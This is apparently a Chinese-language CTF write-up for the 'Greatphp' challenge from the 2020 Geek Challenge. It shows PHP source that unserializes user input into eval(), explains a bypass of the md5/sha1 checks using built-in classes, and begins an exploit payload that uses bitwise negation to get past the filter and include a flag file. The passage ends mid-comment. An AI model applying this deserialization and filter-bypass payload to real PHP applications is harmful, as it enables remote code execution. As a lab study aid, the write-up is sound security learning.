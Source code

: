 # [极客大挑战 2020]Greatphp

```php

<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>

```

一开始以为是数组绕过，但是此处在类中，需要使用PHP内置类进行绕过
学习大佬博客
>[PHP 原生类的利用小结](https://xz.aliyun.com/t/9293#toc-5)

md5()、hash()、eval()所需要的参数都是string类型，如果传入object就会调用其中的`toString`方法

```php

<?php

class SYCLOVER {
    public $syc;
    public $lover;
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }

        }
    }
}

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

```